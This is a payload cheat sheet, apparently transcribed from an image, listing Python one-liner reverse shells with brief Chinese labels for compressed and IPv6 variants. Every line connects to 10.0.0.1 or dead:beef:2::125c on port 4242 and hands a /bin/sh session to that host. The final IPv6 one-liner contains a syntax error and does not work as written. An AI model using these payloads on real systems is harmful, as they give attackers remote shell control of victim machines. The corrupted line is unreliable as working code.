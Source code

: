```python
python -c 'socket=__import__("socket");subprocess=__import__("subprocess");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())'
```

IPv4 (无空格，缩短)

```python
python -c 'a=__import__;s=a("socket");o=a("os").dup2;p=a("pty").spawn;c=s.socket(s.AF_INET,s.SOCK_STREAM);c.connect(("10.0.0.1",4242));f=c.fileno;o(f(),0);o(f(),1);o(f(),2);p("/bin/sh")'
```

```python
python -c 'a=__import__;b=a("socket");p=a("subprocess").call;o=a("os").dup2;s=b.socket(b.AF_INET,b.SOCK_STREAM);s.connect(("10.0.0.1",4242));f=s.fileno;o(f(),0);o(f(),1);o(f(),2);p(["/bin/sh","-i"])'
```

```python
python -c 'a=__import__;b=a("socket");c=a("subprocess").call;s=b.socket(b.AF_INET,b.SOCK_STREAM);s.connect(("10.0.0.1",4242));f=s.fileno;c(["/bin/sh","-i"],stdin=f(),stdout=f(),stderr=f())'
```

IPv4 (无空格，进一步缩短)

```python
python -c 'a=__import__;s=a("socket").socket;o=a("os").dup2;p=a("pty").spawn;c=s();c.connect(("10.0.0.1",4242));f=c.fileno;o(f(),0);o(f(),1);o(f(),2);p("/bin/sh")'
```

```python
python -c 'a=__import__;b=a("socket").socket;p=a("subprocess").call;o=a("os").dup2;s=b();s.connect(("10.0.0.1",4242));f=s.fileno;o(f(),0);o(f(),1);o(f(),2);p(["/bin/sh","-i"])'
```

```python
python -c 'a=__import__;b=a("socket").socket;c=a("subprocess").call;s=b();s.connect(("10.0.0.1",4242));f=s.fileno;c(["/bin/sh","-i"],stdin=f(),stdout=f(),stderr=f())'
```

IPv6

```python
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4242,0,2));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

IPv6 (无空格)

```python
python -c 'socket=__import__("socket");os=__import__("os");pty=__import__("pty");s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4242,0,2));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

IPv6 (无空格, 缩短)

```python
python -c 'a=__import__;c=a("socket");o=a("os").dup2;p=a("pty").spawn;s=c.socket(c.AF_INET6,c.SOCK_STREAM);s.connect(("dead:beef:2::125c",4242,0,2));f=s.fileno;o(f(),0);o(f(),1);o(f(),,2);p("/bin/sh")'
```

